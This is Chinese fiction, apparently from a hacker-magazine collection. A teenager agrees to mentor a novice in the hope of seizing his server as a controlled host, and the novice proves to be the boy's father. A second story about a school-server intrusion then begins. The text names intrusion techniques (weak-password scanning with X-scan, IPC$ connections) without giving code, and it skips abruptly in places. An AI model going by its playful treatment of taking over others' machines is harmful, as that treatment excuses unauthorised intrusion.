网吧里乱哄哄的，游戏的声音、MP3歌曲的声音、还有视频说话的声音乱成一片。不过，小菜对于这些小儿科早就没有兴趣了。找了个角落坐下来，打开QQ，只见QQ上头像狂闪，有朋友问好的，有徒弟申请拜师傅的。别看小菜才14岁，可菜鸟徒弟却已经收了好几个了，还有请求小菜帮着找回被偷的QQ号码的。于是，小菜就同他们海阔天空地聊了起来。正聊得起劲的时候，QQ上的小喇叭（系统信息）狂闪了起来。看了看信息，是一个昵称为“老菜”的发过来的，说是从《黑客X档案》的论坛看到他的QQ。小菜通过了验证，QQ上马上就多出了一个昵称为“老菜”的大企鹅。

大企鹅的头像开始闪了，是“老菜”发过来的信息：“大师，你好，我是刚从《黑客X档案》的论坛看到你的QQ号码。”

“哦，找我有事吗？”小菜回了信息。

“大师，我在论坛上看到了你回复的许多帖子，你的技术一定很厉害吧！我想学习网络技术，你能不能教教我呀？”老菜又发来了信息。

千穿万穿，马屁不穿！虽然小菜明知自己的水平也就是半瓶子晃荡，可心里还是乐悠悠的。“哪里，哪里，我也是菜鸟之一；只是比其他的菜鸟知道的多一点点而已！”小菜回信息道。

“大师，我是刚接触网络技术，以前只是用电脑到联众玩玩升级、斗地主；要不就是看看在线电影、看看新闻什么的。可最近，单位里买了台服务器，做了个网站，上边说叫我维护，现在头大呀！我哪学习过网络技术呀，前几天问了一些人，才知道了《黑客X档案》的网站及论坛。大师，你能不能教教我呀？”

过了大半天，老菜又发过来了信息。

怪不得取名叫“老菜”，原来是个老菜鸟。这么菜的家伙，居然要他管理服务器，服务器！！一想到可以轻松地得到一个专用的肉鸡了，小菜不由乐得笑出了声。

“这样，那好吧，反正我已经有好几个徒弟了，多你一个也不算多。不过，以后可得听师父的话，不然我就黑了你的服务器。”小菜回信息道。

“多谢师父，我明白。以后就请师父多多指教了。”老菜回了信息。

这小子，嘴巴还真甜，这么快就叫上师父了。小菜心里想到。

“师父，我家里的电脑，我不想叫别人用，我想重新改个密码，该如何改呀？”老菜发过来信息。

果然是个大菜鸟，连改密码都不会。“其实，你用‘net user administrator’，然后空一格输入想改的新密码，然后按Enter键就会提示命令成功完成了。”

“师父，我照你刚才讲的输入，可是什么提示也没有呀？”过了老半天，老菜发回了信息。

“嗯？怎么可能？肯定是你输错了，你在cmd下输入刚才的命令肯定会成功的。”小菜说道。

又过了老半天，老菜又发回了回复信息：“cmd是什么东西呀？”

“cmd就是一个命令环境，可以输入命令执行的，cmd是系统里自带的。”小菜回复道。

“不行呀，师父，还是不行。”老菜又发过来回复。

这么个简单的问题，这个大白痴，怎么还学不会？小菜有点儿不耐烦了：“你到底是怎么输入的呀？”小菜问道。

“我在键盘上输入了cmd，什么也没有出来，然后又输入刚才你说的net user administrator什么的，可还是什么也没有出来。”老菜回答道。

看到老菜的回复，小菜差点儿没气得晕过去。这个超级大白痴、大笨蛋，做这种白痴的师父，真是丢人。要不是看上了他的服务器，倒贴我钱，我也不愿意当他的师父。别说菜鸟了，连菜鸟毛、菜鸟蛋也算不上。

“你真是笨死了，你用鼠标点击左下角的‘开始’，然后选择‘程序’、‘附件’，再选择‘命令提示符’就会出现一个黑色的窗口，这个窗口就是cmd。你直接在键盘上输入cmd当然什么也不会出来了。”

过了老半天，老菜又发回来了信息：“师父，我照你刚才教的，那个cmd的黑窗口出来了，我又输入net user administrator 12345678，提示说‘命令执行成功了。’”

忙活了半天，总算是改好了。这12345678也太弱智了吧，算了，没时间理会这些了。小菜看看电脑右下角的时间，已经九点儿，该回去睡觉了，不然，被老妈抓到溜出来上网就惨了。小菜与QQ上的朋友道了声再见，又勉励了一番新徒弟“老菜”就下线了。

回到家，只见老爸还在那儿一边捧着杂志看一边对着电脑敲敲呢。小菜心想，好在今天溜出去上网了，不然要是在家等，可就真的没戏了。

打那以后，小菜在《黑客X档案》的论坛上经常会发现老菜提出来的一些菜鸟问题。每次小菜上网，徒弟“老菜”也都会向他请教一些菜鸟级的问题，比如什么是菜鸟了、什么是肉鸡了、什么是弱口令、什么是扫描、怎么使用扫描程序、如何建立IPC$连接等等。只过了一个多星期，这老菜居然也学会使用X-scan扫描Windows的弱口令，然后利用IPC$入侵了。

这天，正好是周末。晚上，小菜趁老爸、老妈不注意的时候，又偷偷地溜出去上网了。像往常一样，在网上又碰到徒弟“老菜”。

“徒弟，明天有没有空呀？”小菜问道。  
“有呀，明天是周六呀。”老菜回答道。

“明天，有一些网络安全爱好者要在友谊宾馆聚会，大家一起交流交流。我和另外几个徒弟还有一些网上的好友也会参加的。去了，还能见到许多黑客高手，徒弟呀，你去不去？这可是千载难逢的好机会呀，不去可要后悔的。”小菜说道。

“那好的，明天我一定去。”老菜回复道。

“那好，明天上午9点，友谊宾馆，别迟到了呀。我还有别的事，先下了。”小菜说完，就下线了。

第二天早上，小菜早早地吃过了饭，捧上本《黑客X档案》，刚一推门，就发现老爸今天西装、领带，穿戴一新，正在镜子前忙乎。小菜不由得问道：“老爸，你今天要出去吗？”“是呀，我有事。你呢，到哪儿去？”“嗯，我和同学昨天就说好了，今天到他那儿去。”小菜说完，就一溜烟地跑出了家门。

上午9点，小菜准时来到了友谊宾馆。已经有许多网络安全爱好者们先到了！其中**联盟的“飞雪”、**网络安全小组的“菜鸟天使”、中国**网络的“黑色侠客”等几个网络高手也都到场了。小菜和他们打着招呼，这时，他的徒弟“网络超人”“双鱼妹妹”也来了。

这么多平时只在网上未曾谋面的朋友难得聚在了一起，小菜别提有多高兴了。小菜提议道：“今天我们大家难得聚在一起，就请‘飞雪’给我们讲一讲现在常用的黑客攻击方法吧，大家也难得听一次免费的课。”下边的小菜们齐声叫好。

下边正听得聚精会神，只见有人推门走了进来：“各位好，我是老菜，刚接触网络安全没有多久，以后还请各位高手多多指教！”

自己老爸居然是超级大白痴呢，这回估计是神仙也救不了自己了。

这时，老蔡也看到了小菜，惊讶地问道：“儿子，你在这儿干什么？你不是到同学家去了吗？”小菜嘟嘴了半天，也不知道该怎么回答好。

这时，“飞雪”和“菜鸟天使”的激情演讲也已经结束了，就听台下一个叫pipo的菜鸟说道：“小菜，你给我们讲讲‘Windows最新的那个SNMP远程溢出漏洞’的使用方法吧，大家都想知道。”

小子，刚才人家走的时候你连个招呼也不跟人家打一声，也太没有礼貌了。快！2点几，这回家了。”小菜回答了声“哦”，可两腿却像灌铅似的怎么也挪不起来。好不容易出了宾馆的大门，只见老蔡已经拦下了一辆的士。

“儿子，你还磨磨蹭蹭地干啥！”突然，老蔡举起了手。“啊！完了，五指山要来了！”小菜眼睛一闭，只有静待着五指山的到来。该来的，总归是跑不掉的。可等了几秒钟，却不见动静，睁开眼，只见老爸的手已经轻轻地拍在了自己肩膀上。

## 九点零后的网站入侵

> “是你多么温馨的目光，教我坚毅望着前路，叮嘱我跌倒不应放弃，没法解释怎可报尽亲恩，爱意宽大是无限；请准我说声真的爱你。”
>
> ——BEYOND《真的爱你》

ZZEZ校服务器机房。

“IP，XXX.XX.X.XX。”房间内一个男孩子坐在电脑前，身旁一老帅模样的中年男人想了想说道：“恢复骇客对系统所做的改动，补上漏洞，剩下的我去处理。”吩咐完，男中年便转身走出房间。

“啧啧……真是个菜鸟骇客，连日志也不删除。”男孩一边熟练地操作着计算机一边小声嘀咕着，脸上同时还带着少许轻蔑的笑容。

“可能是见我们的服务器配置得很好，想挑战一下吧！”那位被男孩儿称作唐Sir的中年男子不假思索地说道。

“照你的意思来看他应该很厉害呀，但是为什么连日志都不删除呢？”男孩一脸迷惑地问唐Sir。

“可能是他忘了吧，或者是他太自傲。”唐Sir托着下巴慢慢说道。

同学一个个整天除了啃书本还是啃书本。学校考虑到小龙的实际情况，也决定不再让小龙参与服务器的安全维护工作，想让他把精力都放到学习上去。

“学校服务器被人侵啦！”

俗话说，好事不出门，坏事传千里。早上学校服务器刚发现被恶意骇客入侵，下午此事便在学校里传得沸沸扬扬。

“Hi，小龙知道是谁干的吗？”“不知道。”

小龙心不在焉地回答着周围同学的疑问，但心里却高兴着，因为自从小龙“光荣下岗”后，服务器过了一段风平浪静的日子。但这次被骇客恶意入侵，如果微机组的阿Sir们搞不定此事，呵呵，小龙便又有了“上岗”的机会。